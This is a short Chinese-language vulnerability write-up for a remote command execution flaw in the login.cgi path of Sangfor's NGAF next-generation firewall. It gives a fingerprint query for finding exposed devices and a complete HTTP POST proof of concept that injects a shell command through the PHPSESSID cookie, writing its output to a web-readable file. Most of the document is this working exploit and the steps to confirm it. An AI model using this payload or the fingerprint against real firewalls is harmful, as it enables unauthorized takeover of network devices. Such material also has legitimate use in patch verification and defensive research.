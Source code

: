 # 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi 路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面

![image-20231115101204343](images/image-20231115101204343.png)

poc

```
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```

![image-20231115101222783](images/image-20231115101222783.png)

访问

```
/svpn_html/3.txt
```

